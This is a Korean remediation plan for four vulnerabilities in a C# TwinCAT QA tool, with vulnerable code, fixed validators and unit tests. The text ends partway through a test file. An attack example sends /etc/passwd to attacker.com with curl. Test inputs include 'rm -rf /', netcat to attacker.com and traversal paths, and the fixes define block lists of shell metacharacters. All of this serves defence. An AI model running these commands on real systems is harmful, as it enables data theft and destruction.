

# TwinCatQA 보안 취약점 수정 워크플로우

## 프로젝트 정보
- **프로젝트명**: TwinCatQA - TwinCAT 코드 품질 검증 도구
- **프로젝트 경로**: `D:\01. Vscode\Twincat\features\twincat-code-qa-tool`
- **작성일**: 2025-11-26
- **보안 심각도**: Critical (1건), High (3건)

---

## 취약점 개요

### 발견된 취약점 요약

| ID | 취약점 유형 | 파일 | 심각도 | OWASP 분류 |
|----|------------|------|--------|-----------|
| VULN-001 | 경로 순회 (Path Traversal) | LibGit2Service.cs | Critical | A01:2021 - Broken Access Control |
| VULN-002 | 명령어 주입 (Command Injection) | GraphvizVisualizationService.cs | High | A03:2021 - Injection |
| VULN-003 | XXE (XML External Entity) | AntlrParserService.cs | High | A05:2021 - Security Misconfiguration |
| VULN-004 | 안전하지 않은 역직렬화 | ConfigurationService.cs | High | A08:2021 - Software and Data Integrity Failures |

---

## VULN-001: 경로 순회 취약점 (Critical)

### 취약점 상세 정보

**파일**: `src/TwinCatQA.Infrastructure/Git/LibGit2Service.cs`
**라인**: 394-446 (`InstallPreCommitHook` 메서드)
**CWE**: CWE-22 (Improper Limitation of a Pathname to a Restricted Directory)

#### 취약한 코드 (현재)

```csharp
// 라인 394-446
public bool InstallPreCommitHook(string repoPath, bool blockOnCritical = true)
{
    var gitDir = FindGitDirectory(repoPath);
    var hooksDir = Path.Combine(gitDir, "hooks");

    // ❌ 취약점: repoPath가 검증되지 않아 상위 디렉토리 접근 가능
    // 예: repoPath = "../../../etc/passwd" 등

    string hookFileName = isWindows ? "pre-commit.bat" : "pre-commit";
    string hookPath = Path.Combine(hooksDir, hookFileName);

    // 템플릿 경로도 검증 없이 사용됨 (라인 534-546)
    string templatePath = Path.Combine(
        AppDomain.CurrentDomain.BaseDirectory,
        "Git",
        "Templates",
        templateFileName
    );

    if (File.Exists(templatePath))
    {
        return File.ReadAllText(templatePath); // 경로 검증 없음
    }
}
```

#### 공격 시나리오

1. **상위 디렉토리 접근**: `repoPath = "../../../../etc"`
2. **심볼릭 링크 악용**: 악의적인 심볼릭 링크를 통한 시스템 파일 접근
3. **임의 파일 쓰기**: Hook 파일을 시스템 중요 디렉토리에 작성

#### 비즈니스 영향

- **위험도**: Critical
- **영향 범위**: 시스템 전체 파일 시스템
- **악용 가능성**: 높음 (원격 코드 실행 가능)
- **데이터 유출 위험**: 매우 높음

---

### 수정 방안

#### 1단계: 경로 검증 유틸리티 추가

**파일**: `src/TwinCatQA.Infrastructure/Security/PathValidator.cs` (신규 생성)

```csharp
using System;
using System.IO;
using System.Linq;

namespace TwinCatQA.Infrastructure.Security
{
    /// <summary>
    /// 경로 검증 및 정규화 유틸리티
    /// 경로 순회 공격을 방지합니다.
    /// </summary>
    public static class PathValidator
    {
        /// <summary>
        /// 경로가 기준 디렉토리 내부에 있는지 검증
        /// </summary>
        /// <param name="basePath">기준 디렉토리 (절대 경로)</param>
        /// <param name="targetPath">검증할 경로</param>
        /// <returns>검증 통과 시 정규화된 절대 경로</returns>
        /// <exception cref="SecurityException">경로 순회 시도 감지 시</exception>
        public static string ValidateAndNormalize(string basePath, string targetPath)
        {
            if (string.IsNullOrWhiteSpace(basePath))
                throw new ArgumentNullException(nameof(basePath));

            if (string.IsNullOrWhiteSpace(targetPath))
                throw new ArgumentNullException(nameof(targetPath));

            // 1. 기준 경로를 절대 경로로 변환
            string normalizedBase = Path.GetFullPath(basePath);

            // 2. 목표 경로를 기준 경로 기준으로 절대 경로 변환
            string normalizedTarget;

            try
            {
                // Path.Combine으로 안전하게 결합 후 정규화
                string combined = Path.IsPathRooted(targetPath)
                    ? targetPath
                    : Path.Combine(normalizedBase, targetPath);

                normalizedTarget = Path.GetFullPath(combined);
            }
            catch (Exception ex)
            {
                throw new SecurityException(
                    $"잘못된 경로 형식입니다: {targetPath}", ex);
            }

            // 3. 정규화된 경로가 기준 경로 내부에 있는지 확인
            if (!normalizedTarget.StartsWith(normalizedBase + Path.DirectorySeparatorChar,
                StringComparison.OrdinalIgnoreCase)
                && !normalizedTarget.Equals(normalizedBase,
                StringComparison.OrdinalIgnoreCase))
            {
                throw new SecurityException(
                    $"경로 순회 시도가 감지되었습니다. 기준 경로: {normalizedBase}, 시도된 경로: {normalizedTarget}");
            }

            // 4. 위험한 문자 패턴 검증
            ValidateDangerousPatterns(targetPath);

            return normalizedTarget;
        }

        /// <summary>
        /// 위험한 경로 패턴 검증
        /// </summary>
        private static void ValidateDangerousPatterns(string path)
        {
            // 위험한 패턴 목록
            string[] dangerousPatterns = new[]
            {
                "..",           // 상위 디렉토리
                "~",            // 홈 디렉토리
                "%",            // 환경 변수 (Windows)
                "$",            // 환경 변수 (Unix)
                ":",            // 대체 데이터 스트림 (Windows)
                "\0"            // Null 바이트
            };

            foreach (var pattern in dangerousPatterns)
            {
                if (path.Contains(pattern))
                {
                    throw new SecurityException(
                        $"경로에 위험한 문자가 포함되어 있습니다: '{pattern}'");
                }
            }

            // Unix 심볼릭 링크 검증 (실제 파일 시스템 체크)
            if (File.Exists(path) || Directory.Exists(path))
            {
                var attributes = File.GetAttributes(path);
                if ((attributes & FileAttributes.ReparsePoint) == FileAttributes.ReparsePoint)
                {
                    throw new SecurityException(
                        "심볼릭 링크는 허용되지 않습니다.");
                }
            }
        }

        /// <summary>
        /// 파일이 허용된 확장자인지 검증
        /// </summary>
        public static bool IsAllowedExtension(string filePath, params string[] allowedExtensions)
        {
            if (string.IsNullOrWhiteSpace(filePath))
                return false;

            string extension = Path.GetExtension(filePath)?.ToLowerInvariant();

            return allowedExtensions.Any(ext =>
                ext.Equals(extension, StringComparison.OrdinalIgnoreCase));
        }
    }

    /// <summary>
    /// 보안 검증 예외
    /// </summary>
    public class SecurityException : Exception
    {
        public SecurityException(string message) : base(message) { }
        public SecurityException(string message, Exception innerException)
            : base(message, innerException) { }
    }
}
```

#### 2단계: LibGit2Service 수정

**파일**: `src/TwinCatQA.Infrastructure/Git/LibGit2Service.cs`

```csharp
using TwinCatQA.Infrastructure.Security; // 추가

public class LibGit2Service : IGitService
{
    // ✅ 수정된 InstallPreCommitHook 메서드
    public bool InstallPreCommitHook(string repoPath, bool blockOnCritical = true)
    {
        try
        {
            // 1. 경로 검증: Git 저장소가 아니면 실패
            if (!IsGitRepository(repoPath))
            {
                _logger.LogWarning("Git 저장소가 아닙니다: {RepoPath}", repoPath);
                return false;
            }

            var gitDir = FindGitDirectory(repoPath);

            // 2. Git 디렉토리 경로 검증 (상위 디렉토리 접근 방지)
            string validatedGitDir;
            try
            {
                validatedGitDir = PathValidator.ValidateAndNormalize(
                    basePath: Environment.CurrentDirectory,
                    targetPath: gitDir
                );
            }
            catch (SecurityException ex)
            {
                _logger.LogError(ex, "Git 디렉토리 경로 검증 실패: {GitDir}", gitDir);
                return false;
            }

            var hooksDir = Path.Combine(validatedGitDir, "hooks");

            // 3. Hooks 디렉토리 생성 (경로 검증 후)
            if (!Directory.Exists(hooksDir))
            {
                Directory.CreateDirectory(hooksDir);
            }

            // 4. Hook 파일 경로 검증
            bool isWindows = Environment.OSVersion.Platform == PlatformID.Win32NT;
            string hookFileName = isWindows ? "pre-commit.bat" : "pre-commit";

            string hookPath;
            try
            {
                hookPath = PathValidator.ValidateAndNormalize(
                    basePath: hooksDir,
                    targetPath: hookFileName
                );
            }
            catch (SecurityException ex)
            {
                _logger.LogError(ex, "Hook 파일 경로 검증 실패: {HookFileName}", hookFileName);
                return false;
            }

            // 5. Hook 스크립트 내용 읽기 (경로 검증 포함)
            string scriptContent = GetPreCommitHookScriptSecure(isWindows, blockOnCritical);

            // 6. Hook 파일 작성 (검증된 경로에만)
            File.WriteAllText(hookPath, scriptContent);

            // 7. Unix 실행 권한 부여 (안전한 방식)
            if (!isWindows)
            {
                GrantExecutePermissionSecure(hookPath);
            }

            _logger.LogInformation("Pre-commit Hook 설치 완료: {HookPath}", hookPath);
            return true;
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Pre-commit Hook 설치 실패: {RepoPath}", repoPath);
            return false;
        }
    }

    // ✅ 수정된 GetPreCommitHookScript 메서드
    private string GetPreCommitHookScriptSecure(bool isWindows, bool blockOnCritical)
    {
        string templateFileName = isWindows ? "pre-commit.bat" : "pre-commit.sh";

        // 1. 기본 템플릿 디렉토리 (AppDomain 사용 시 검증)
        string baseDirectory = AppDomain.CurrentDomain.BaseDirectory;
        string templateDirectory = Path.Combine(baseDirectory, "Git", "Templates");

        // 2. 템플릿 디렉토리 경로 검증
        string validatedTemplateDir;
        try
        {
            validatedTemplateDir = PathValidator.ValidateAndNormalize(
                basePath: baseDirectory,
                targetPath: templateDirectory
            );
        }
        catch (SecurityException ex)
        {
            _logger.LogWarning(ex, "템플릿 디렉토리 접근 불가, 기본 스크립트 사용");
            return GetDefaultHookScript(isWindows, blockOnCritical);
        }

        // 3. 템플릿 파일 경로 검증
        string templatePath;
        try
        {
            templatePath = PathValidator.ValidateAndNormalize(
                basePath: validatedTemplateDir,
                targetPath: templateFileName
            );

            // 4. 허용된 확장자인지 검증
            if (!PathValidator.IsAllowedExtension(templatePath, ".bat", ".sh"))
            {
                _logger.LogWarning("허용되지 않은 템플릿 파일 형식: {FileName}", templateFileName);
                return GetDefaultHookScript(isWindows, blockOnCritical);
            }
        }
        catch (SecurityException ex)
        {
            _logger.LogWarning(ex, "템플릿 파일 접근 불가, 기본 스크립트 사용");
            return GetDefaultHookScript(isWindows, blockOnCritical);
        }

        // 5. 템플릿 파일이 있으면 사용
        if (File.Exists(templatePath))
        {
            return File.ReadAllText(templatePath);
        }

        // 6. 없으면 기본 스크립트 생성
        return GetDefaultHookScript(isWindows, blockOnCritical);
    }

    // ✅ 기본 스크립트 생성 헬퍼 메서드
    private string GetDefaultHookScript(bool isWindows, bool blockOnCritical)
    {
        return isWindows
            ? GetDefaultWindowsHookScript(blockOnCritical)
            : GetDefaultBashHookScript(blockOnCritical);
    }

    // ✅ 안전한 실행 권한 부여 (Unix)
    private void GrantExecutePermissionSecure(string filePath)
    {
        try
        {
            // ProcessStartInfo로 chmod 실행 시 인자 검증
            var startInfo = new System.Diagnostics.ProcessStartInfo
            {
                FileName = "/bin/chmod",  // 절대 경로 사용
                ArgumentList = { "+x", filePath },  // ArgumentList 사용 (안전)
                UseShellExecute = false,
                CreateNoWindow = true,
                RedirectStandardError = true
            };

            using var process = System.Diagnostics.Process.Start(startInfo);
            if (process != null)
            {
                process.WaitForExit(5000); // 5초 타임아웃

                if (process.ExitCode != 0)
                {
                    string error = process.StandardError.ReadToEnd();
                    _logger.LogWarning("chmod 실행 실패: {Error}", error);
                }
            }
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "실행 권한 부여 실패 (수동으로 chmod +x 실행 필요): {FilePath}", filePath);
        }
    }
}
```

---

### 단위 테스트 전략

**파일**: `tests/TwinCatQA.Infrastructure.Tests/Security/PathValidatorTests.cs`

```csharp
using System;
using System.IO;
using Xunit;
using TwinCatQA.Infrastructure.Security;

namespace TwinCatQA.Infrastructure.Tests.Security
{
    public class PathValidatorTests
    {
        private readonly string _testBasePath;

        public PathValidatorTests()
        {
            _testBasePath = Path.Combine(Path.GetTempPath(), "PathValidatorTests");
            Directory.CreateDirectory(_testBasePath);
        }

        [Fact]
        public void ValidateAndNormalize_정상경로_성공()
        {
            // Arrange
            string targetPath = "subdir/file.txt";

            // Act
            string result = PathValidator.ValidateAndNormalize(_testBasePath, targetPath);

            // Assert
            Assert.StartsWith(_testBasePath, result);
            Assert.Contains("subdir", result);
        }

        [Theory]
        [InlineData("../../../etc/passwd")]  // 상위 디렉토리
        [InlineData("..\\..\\..\\windows\\system32")]  // Windows 상위
        [InlineData("/etc/passwd")]  // 절대 경로 (외부)
        [InlineData("C:\\Windows\\System32\\config")]  // 외부 절대 경로
        public void ValidateAndNormalize_경로순회시도_예외발생(string maliciousPath)
        {
            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                PathValidator.ValidateAndNormalize(_testBasePath, maliciousPath));
        }

        [Theory]
        [InlineData("file..txt")]  // .. 포함
        [InlineData("~/.bashrc")]  // 홈 디렉토리
        [InlineData("file%TEMP%")]  // 환경 변수
        [InlineData("file$HOME")]  // Unix 환경 변수
        [InlineData("file:stream")]  // ADS (Windows)
        public void ValidateAndNormalize_위험한문자_예외발생(string dangerousPath)
        {
            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                PathValidator.ValidateAndNormalize(_testBasePath, dangerousPath));
        }

        [Fact]
        public void IsAllowedExtension_허용된확장자_참반환()
        {
            // Arrange
            string filePath = "script.sh";

            // Act
            bool result = PathValidator.IsAllowedExtension(filePath, ".sh", ".bat");

            // Assert
            Assert.True(result);
        }

        [Fact]
        public void IsAllowedExtension_허용안된확장자_거짓반환()
        {
            // Arrange
            string filePath = "malicious.exe";

            // Act
            bool result = PathValidator.IsAllowedExtension(filePath, ".sh", ".bat");

            // Assert
            Assert.False(result);
        }
    }
}
```

**파일**: `tests/TwinCatQA.Infrastructure.Tests/Git/LibGit2ServiceSecurityTests.cs`

```csharp
using System;
using System.IO;
using Xunit;
using Microsoft.Extensions.Logging;
using Moq;
using TwinCatQA.Infrastructure.Git;

namespace TwinCatQA.Infrastructure.Tests.Git
{
    public class LibGit2ServiceSecurityTests : IDisposable
    {
        private readonly string _testRepoPath;
        private readonly LibGit2Service _service;
        private readonly Mock<ILogger<LibGit2Service>> _loggerMock;

        public LibGit2ServiceSecurityTests()
        {
            _testRepoPath = Path.Combine(Path.GetTempPath(), $"GitTest_{Guid.NewGuid()}");
            Directory.CreateDirectory(_testRepoPath);

            _loggerMock = new Mock<ILogger<LibGit2Service>>();
            _service = new LibGit2Service(_loggerMock.Object);

            // Git 저장소 초기화
            _service.InitializeRepository(_testRepoPath);
        }

        [Fact]
        public void InstallPreCommitHook_정상경로_성공()
        {
            // Act
            bool result = _service.InstallPreCommitHook(_testRepoPath);

            // Assert
            Assert.True(result);
            Assert.True(_service.IsPreCommitHookInstalled(_testRepoPath));
        }

        [Theory]
        [InlineData("../../../etc")]
        [InlineData("..\\..\\..\\windows")]
        [InlineData("/tmp/malicious")]
        public void InstallPreCommitHook_경로순회시도_실패(string maliciousPath)
        {
            // Act
            bool result = _service.InstallPreCommitHook(maliciousPath);

            // Assert
            Assert.False(result);

            // 로그에 보안 경고가 기록되었는지 확인
            _loggerMock.Verify(
                x => x.Log(
                    LogLevel.Error,
                    It.IsAny<EventId>(),
                    It.Is<It.IsAnyType>((v, t) => v.ToString().Contains("경로")),
                    It.IsAny<Exception>(),
                    It.IsAny<Func<It.IsAnyType, Exception, string>>()),
                Times.AtLeastOnce);
        }

        [Fact]
        public void InstallPreCommitHook_Hook파일이시스템디렉토리에생성안됨()
        {
            // Arrange
            string systemPath = Environment.SystemDirectory;

            // Act
            bool result = _service.InstallPreCommitHook(systemPath);

            // Assert
            Assert.False(result);

            // 시스템 디렉토리에 Hook 파일이 생성되지 않았는지 확인
            string hookPath = Path.Combine(systemPath, "hooks", "pre-commit");
            Assert.False(File.Exists(hookPath));
        }

        public void Dispose()
        {
            // 테스트 디렉토리 정리
            if (Directory.Exists(_testRepoPath))
            {
                Directory.Delete(_testRepoPath, true);
            }
        }
    }
}
```

---

### 검증 체크리스트

#### 코드 리뷰 체크리스트

- [ ] **경로 검증**: 모든 파일 경로가 `PathValidator.ValidateAndNormalize`로 검증됨
- [ ] **상위 디렉토리 접근 차단**: `..` 패턴이 차단됨
- [ ] **절대 경로 처리**: 외부 절대 경로 접근 시도가 차단됨
- [ ] **심볼릭 링크 검증**: `FileAttributes.ReparsePoint` 체크
- [ ] **확장자 화이트리스트**: `.sh`, `.bat` 외 파일 거부
- [ ] **로깅**: 모든 보안 이벤트가 로그에 기록됨
- [ ] **예외 처리**: `SecurityException`이 적절히 처리됨

#### 테스트 커버리지 체크리스트

- [ ] **단위 테스트**: PathValidator 모든 메서드 100% 커버
- [ ] **통합 테스트**: LibGit2Service 경로 검증 시나리오 커버
- [ ] **악의적 입력 테스트**: 10가지 이상의 공격 시나리오 테스트
- [ ] **경계값 테스트**: 빈 문자열, null, 긴 경로 처리
- [ ] **플랫폼별 테스트**: Windows/Unix 경로 구분자 테스트

#### 수동 보안 테스트

```bash
# 1. 상위 디렉토리 접근 시도
dotnet test --filter "경로순회시도_실패"

# 2. 심볼릭 링크 테스트 (Unix)
ln -s /etc/passwd malicious_link
# 심볼릭 링크 경로로 Hook 설치 시도 → 실패해야 함

# 3. 환경 변수 인젝션 테스트
repoPath="../../../$HOME/.bashrc"
# 환경 변수가 확장되지 않고 차단되어야 함
```

---

### 예상 소요 시간

| 작업 단계 | 예상 시간 | 담당자 역할 |
|----------|----------|-----------|
| PathValidator 클래스 구현 | 2시간 | 백엔드 개발자 |
| LibGit2Service 수정 | 3시간 | 백엔드 개발자 |
| 단위 테스트 작성 (PathValidator) | 2시간 | QA 엔지니어 |
| 단위 테스트 작성 (LibGit2Service) | 2시간 | QA 엔지니어 |
| 코드 리뷰 | 1시간 | 시니어 개발자 |
| 수동 보안 테스트 | 1시간 | 보안 엔지니어 |
| 문서화 | 1시간 | 기술 작가 |
| **총 소요 시간** | **12시간** | **1.5일** |

---

## VULN-002: 명령어 주입 취약점 (High)

### 취약점 상세 정보

**파일**: `src/TwinCatQA.Application/Services/GraphvizVisualizationService.cs`
**라인**: 97-118 (`ConvertToSvgAsync` 메서드)
**CWE**: CWE-78 (Improper Neutralization of Special Elements in OS Command)

#### 취약한 코드 (현재)

```csharp
// 라인 97-118
public async Task<string?> ConvertToSvgAsync(
    string dotContent,
    string outputPath,
    CancellationToken cancellationToken = default)
{
    // ❌ 취약점: outputPath가 검증 없이 Arguments에 삽입됨
    var process = new Process
    {
        StartInfo = new ProcessStartInfo
        {
            FileName = GRAPHVIZ_DOT_COMMAND,
            Arguments = $"-Tsvg \"{dotFilePath}\" -o \"{outputPath}\"",
            // ↑ 명령어 주입 가능: outputPath = "output.svg\" && rm -rf / #"
            RedirectStandardOutput = true,
            RedirectStandardError = true,
            UseShellExecute = false,
            CreateNoWindow = true
        }
    };
}
```

#### 공격 시나리오

```csharp
// 공격자가 제어 가능한 outputPath
string maliciousPath = "output.svg\" && curl http://attacker.com/steal?data=$(cat /etc/passwd) #";

// 실제 실행되는 명령어
// dot -Tsvg "input.dot" -o "output.svg" && curl http://attacker.com/steal?data=$(cat /etc/passwd) #"
// → 명령어 체이닝으로 임의 명령 실행
```

#### 비즈니스 영향

- **위험도**: High
- **영향 범위**: 서버 전체
- **악용 가능성**: 중간 (사용자 입력이 outputPath에 영향을 줄 경우)
- **RCE 가능성**: 높음

---

### 수정 방안

#### 1단계: 명령어 주입 방지 유틸리티 추가

**파일**: `src/TwinCatQA.Infrastructure/Security/CommandValidator.cs` (신규 생성)

```csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text.RegularExpressions;

namespace TwinCatQA.Infrastructure.Security
{
    /// <summary>
    /// 외부 프로세스 실행 시 명령어 주입 방지 유틸리티
    /// </summary>
    public static class CommandValidator
    {
        // 위험한 셸 메타 문자
        private static readonly char[] ShellMetaCharacters =
        {
            '&', '|', ';', '$', '`', '\n', '\r',
            '<', '>', '(', ')', '{', '}', '[', ']',
            '!', '#', '*', '?', '~', '%'
        };

        /// <summary>
        /// 명령어 인자에서 위험한 문자를 검증
        /// </summary>
        /// <param name="argument">검증할 인자</param>
        /// <returns>안전한 경우 true</returns>
        public static bool IsSafeArgument(string argument)
        {
            if (string.IsNullOrEmpty(argument))
                return true;

            // 1. 셸 메타 문자 포함 여부 확인
            if (argument.IndexOfAny(ShellMetaCharacters) >= 0)
                return false;

            // 2. 개행 문자 확인
            if (argument.Contains("\n") || argument.Contains("\r"))
                return false;

            // 3. Null 바이트 확인
            if (argument.Contains("\0"))
                return false;

            return true;
        }

        /// <summary>
        /// ProcessStartInfo를 안전하게 구성 (ArgumentList 사용)
        /// </summary>
        /// <param name="fileName">실행 파일 경로 (절대 경로 권장)</param>
        /// <param name="arguments">인자 목록</param>
        /// <returns>안전하게 구성된 ProcessStartInfo</returns>
        public static ProcessStartInfo CreateSafeProcessStartInfo(
            string fileName,
            params string[] arguments)
        {
            if (string.IsNullOrWhiteSpace(fileName))
                throw new ArgumentNullException(nameof(fileName));

            // 모든 인자 검증
            foreach (var arg in arguments)
            {
                if (!IsSafeArgument(arg))
                {
                    throw new SecurityException(
                        $"명령어 주입 시도가 감지되었습니다: {arg}");
                }
            }

            // ArgumentList 사용 (셸 인젝션 방지)
            var startInfo = new ProcessStartInfo
            {
                FileName = fileName,
                UseShellExecute = false,  // 중요: 셸 사용 안 함
                CreateNoWindow = true,
                RedirectStandardOutput = true,
                RedirectStandardError = true
            };

            // ArgumentList로 인자 개별 추가 (안전)
            foreach (var arg in arguments)
            {
                startInfo.ArgumentList.Add(arg);
            }

            return startInfo;
        }

        /// <summary>
        /// 프로세스 타임아웃과 함께 안전하게 실행
        /// </summary>
        /// <param name="startInfo">ProcessStartInfo</param>
        /// <param name="timeoutMs">타임아웃 (밀리초)</param>
        /// <returns>(ExitCode, StdOut, StdErr)</returns>
        public static (int ExitCode, string StdOut, string StdErr) ExecuteProcessSafely(
            ProcessStartInfo startInfo,
            int timeoutMs = 30000)
        {
            using var process = new Process { StartInfo = startInfo };

            process.Start();

            // 출력 스트림 비동기 읽기 (데드락 방지)
            string stdout = process.StandardOutput.ReadToEnd();
            string stderr = process.StandardError.ReadToEnd();

            // 타임아웃 대기
            bool exited = process.WaitForExit(timeoutMs);

            if (!exited)
            {
                process.Kill();
                throw new TimeoutException(
                    $"프로세스가 {timeoutMs}ms 내에 완료되지 않았습니다.");
            }

            return (process.ExitCode, stdout, stderr);
        }
    }
}
```

#### 2단계: GraphvizVisualizationService 수정

**파일**: `src/TwinCatQA.Application/Services/GraphvizVisualizationService.cs`

```csharp
using TwinCatQA.Infrastructure.Security; // 추가

public class GraphvizVisualizationService
{
    // ✅ 수정된 ConvertToSvgAsync 메서드
    public async Task<string?> ConvertToSvgAsync(
        string dotContent,
        string outputPath,
        CancellationToken cancellationToken = default)
    {
        // 1. 입력 검증
        if (string.IsNullOrWhiteSpace(dotContent))
        {
            throw new ArgumentException("DOT 내용이 비어있습니다.", nameof(dotContent));
        }

        if (string.IsNullOrWhiteSpace(outputPath))
        {
            throw new ArgumentException("출력 경로가 비어있습니다.", nameof(outputPath));
        }

        // 2. 출력 경로 검증 (경로 순회 방지)
        string validatedOutputPath;
        try
        {
            string baseDir = Path.GetDirectoryName(outputPath) ?? Environment.CurrentDirectory;
            string fileName = Path.GetFileName(outputPath);

            validatedOutputPath = PathValidator.ValidateAndNormalize(baseDir, fileName);

            // 3. 허용된 확장자인지 검증
            if (!PathValidator.IsAllowedExtension(validatedOutputPath, ".svg", ".png", ".pdf"))
            {
                throw new ArgumentException(
                    $"허용되지 않은 출력 형식입니다: {Path.GetExtension(outputPath)}");
            }
        }
        catch (SecurityException ex)
        {
            _logger.LogError(ex, "출력 경로 검증 실패: {OutputPath}", outputPath);
            throw;
        }

        // 4. DOT 파일 먼저 저장 (검증된 경로)
        string dotFilePath = Path.ChangeExtension(validatedOutputPath, ".dot");
        await File.WriteAllTextAsync(dotFilePath, dotContent, Encoding.UTF8, cancellationToken);

        _logger.LogInformation("DOT 파일 저장: {DotFilePath}", dotFilePath);

        // 5. Graphviz가 설치되지 않은 경우
        if (!IsGraphvizInstalled())
        {
            _logger.LogWarning("Graphviz가 설치되지 않았습니다. DOT 파일만 생성되었습니다.");
            return null;
        }

        try
        {
            // 6. 안전한 ProcessStartInfo 생성 (ArgumentList 사용)
            var startInfo = CommandValidator.CreateSafeProcessStartInfo(
                fileName: "dot",  // PATH에서 검색 (또는 절대 경로 사용)
                arguments: new[]
                {
                    "-Tsvg",              // 출력 형식
                    dotFilePath,          // 입력 파일
                    "-o",                 // 출력 옵션
                    validatedOutputPath   // 출력 파일
                }
            );

            _logger.LogInformation("Graphviz 실행: dot {Args}",
                string.Join(" ", startInfo.ArgumentList));

            // 7. 프로세스 안전하게 실행 (타임아웃 30초)
            var (exitCode, stdout, stderr) = CommandValidator.ExecuteProcessSafely(
                startInfo,
                timeoutMs: 30000
            );

            if (exitCode != 0)
            {
                _logger.LogError("Graphviz 변환 실패 (ExitCode: {ExitCode})", exitCode);
                _logger.LogError("stderr: {StdErr}", stderr);
                return null;
            }

            // 8. 출력 파일 생성 확인
            if (File.Exists(validatedOutputPath))
            {
                _logger.LogInformation("SVG 파일 생성 완료: {OutputPath}", validatedOutputPath);
                return validatedOutputPath;
            }

            _logger.LogWarning("SVG 파일이 생성되지 않았습니다.");
            return null;
        }
        catch (SecurityException ex)
        {
            _logger.LogError(ex, "명령어 주입 시도 감지");
            throw;
        }
        catch (TimeoutException ex)
        {
            _logger.LogError(ex, "Graphviz 실행 타임아웃");
            return null;
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Graphviz 변환 중 예외 발생");
            return null;
        }
    }

    // ✅ 개선된 Graphviz 설치 확인 (타임아웃 추가)
    public bool IsGraphvizInstalled()
    {
        try
        {
            var startInfo = CommandValidator.CreateSafeProcessStartInfo(
                fileName: "dot",
                arguments: new[] { "-V" }
            );

            var (exitCode, _, _) = CommandValidator.ExecuteProcessSafely(
                startInfo,
                timeoutMs: 2000  // 2초 타임아웃
            );

            return exitCode == 0;
        }
        catch
        {
            return false;
        }
    }
}
```

---

### 단위 테스트 전략

**파일**: `tests/TwinCatQA.Application.Tests/Security/CommandValidatorTests.cs`

```csharp
using System;
using System.Diagnostics;
using Xunit;
using TwinCatQA.Infrastructure.Security;

namespace TwinCatQA.Application.Tests.Security
{
    public class CommandValidatorTests
    {
        [Theory]
        [InlineData("normal_file.txt")]  // 정상
        [InlineData("file-with-dash.svg")]  // 하이픈
        [InlineData("file_with_underscore.png")]  // 언더스코어
        public void IsSafeArgument_안전한인자_참반환(string safeArg)
        {
            // Act
            bool result = CommandValidator.IsSafeArgument(safeArg);

            // Assert
            Assert.True(result);
        }

        [Theory]
        [InlineData("file.txt && rm -rf /")]  // 명령어 체이닝
        [InlineData("file.txt | nc attacker.com 1234")]  // 파이프
        [InlineData("file.txt; cat /etc/passwd")]  // 세미콜론
        [InlineData("file.txt`whoami`")]  // 백틱 (명령 치환)
        [InlineData("file.txt$(whoami)")]  // 달러 (명령 치환)
        [InlineData("file.txt\nrm -rf /")]  // 개행
        [InlineData("file.txt > /dev/null")]  // 리다이렉션
        [InlineData("file.txt < /etc/passwd")]  // 입력 리다이렉션
        public void IsSafeArgument_명령어주입시도_거짓반환(string maliciousArg)
        {
            // Act
            bool result = CommandValidator.IsSafeArgument(maliciousArg);

            // Assert
            Assert.False(result);
        }

        [Fact]
        public void CreateSafeProcessStartInfo_정상인자_성공()
        {
            // Arrange
            string fileName = "echo";
            string[] args = { "hello", "world" };

            // Act
            var startInfo = CommandValidator.CreateSafeProcessStartInfo(fileName, args);

            // Assert
            Assert.Equal(fileName, startInfo.FileName);
            Assert.False(startInfo.UseShellExecute);
            Assert.Equal(2, startInfo.ArgumentList.Count);
            Assert.Contains("hello", startInfo.ArgumentList);
        }

        [Fact]
        public void CreateSafeProcessStartInfo_명령어주입인자_예외발생()
        {
            // Arrange
            string fileName = "echo";
            string[] maliciousArgs = { "hello && rm -rf /" };

            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                CommandValidator.CreateSafeProcessStartInfo(fileName, maliciousArgs));
        }

        [Fact]
        public void ExecuteProcessSafely_정상명령어_성공()
        {
            // Arrange
            var startInfo = CommandValidator.CreateSafeProcessStartInfo(
                "cmd.exe",  // Windows
                "/c", "echo", "test"
            );

            // Act
            var (exitCode, stdout, stderr) = CommandValidator.ExecuteProcessSafely(
                startInfo,
                timeoutMs: 5000
            );

            // Assert
            Assert.Equal(0, exitCode);
            Assert.Contains("test", stdout);
        }

        [Fact]
